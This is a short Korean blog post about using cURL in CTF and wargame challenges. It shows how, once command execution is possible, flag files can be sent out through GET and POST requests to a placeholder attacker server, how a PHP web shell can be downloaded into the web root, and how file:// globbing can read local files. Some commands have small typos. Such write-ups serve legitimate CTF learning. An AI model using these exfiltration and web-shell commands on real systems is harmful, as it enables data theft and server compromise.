 ```yaml
---
title: cURL with CTF
date: 2024-01-09
author: glasses96
categories: [etc]
tags: [cURL,CTF]
pin: true
math: true
mermaid: true
---
```


> **CTF나 워게임 문제를 풀 때 쉘 명령어로 /flag를 실행시키거나, /flag.txt와 같은 파일 내용을 가져와야 하는 경우가 있습니다.**  
> **이런 상황에서 쉘을 연결하지 않고 cURL를 이용하는 여러가지 방법을 알아봅시다.**     
{: .prompt-info }

## What is Curl??
[cURL](https://curl.se/)은 client URL 이라는 뜻을 가지고 있습니다.  
지원하는 프로토콜을 이용하여 URL로 데이터를 전송하여 서버에서 데이터를 보내거나, 가져옵니다.  

CTF/워게임에서 명령어 실행이 가능할 때 `/flag, /flag.txt`에 있는 결과를 공격자의 서버로 전달하기 위해 자주사용합니다.  

`여기서 웹과 연결된 쉘이 바이너리 파일에 실행권한이 있어야 전달이 가능하며, flag.txt에는 읽기 권한이 있어야 전달이 가능합니다.`

## Example cURL
다음과 같이 서버에 `flag` 바이너리와 `flag.txt` 파일이 존재합니다.
![flag](/assets/post/53/1.png)

각 내용은 아래와 같습니다.
```sh
flag -> FLAG{FLAG Binary!!!}

flag.txt -> FLAG{FLAG flag.txt!!}
```

### GET Request Server
`GET` 통신을 이용하여 서버에 전달하는 방법입니다.  
Payload를 보면 base64 인코딩을 하여 전달하는데 이는 그냥 전달 시 `{,}` 가 해석이 안되어 전달 자체가 불가능합니다.  
이런경우 `-g`, `--globoff` 옵션을 주어 globbing을 끄면 되지만 내용에 공백이 있을 경우 또한 전달이 불가능합니다.

```sh
#/flag
curl http://[myserver]/?flag=`/flag|base64 -w0
```

![flag1](/assets/post/53/2.png)

```sh
curl http://[myserver]/?flag=`cat /flag.txt|base64 -w0`
```
![flag1.txt](/assets/post/53/3.png)

### POST Request Server
`POST` 통신을 이용하여 서버에 전달하는 방법입니다.

`-d`, `--data` 옵션을 주어 파일 내용을 전달 할 수 있습니다.

```sh
curl -x POST http://[myserver]/ -d @/flag.txt
```
![flag2](/assets/post/53/4.png)

### File upload
-o 옵션을 주어 외부에서 파일을 가져와 서버에 업로드 할 수 있습니다.  
웹 쉘을 웹루트 폴더에 업로드가 되면 이를 이용이 가능합니다.  

`다만 curl의 명령어를 실행하는 위치에 파일 쓰기가 가능한 경우 사용이 가능합니다.`
```sh
curl -0 webshell.php https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
![phpupload](/assets/post/53/5.png)

## URL globbing
curl은 [URL Globbing](https://everything.curl.dev/cmdline/globbing)이 가능합니다.  
간단하게 요약하자면 예약된 문자 `{}, []`를 사용하여 범위 입력이 가능합니다.  

예시로 flag.txt 파일이 flag.랜덤한 8자리.txt 이런식으로 랜덤 값을 추측해야하는 경우 사용이 가능합니다. 
다만 이런 경우 위에서 보았던 `GET, POST`에서 보았던 것 처럼은 사용은 안되지만 `file://` 스킴이 사용 가능할 때 유용합니다.

```sh
flag99.txt -> flag[0-9][0-9].txt
curl file:///flag[0-9][0-9].txt
```
![URL Globbing](/assets/post/53/6.png)

## 후기
더 다양한 방법이 있을 것으로 예상되지만 우선은 여기까지!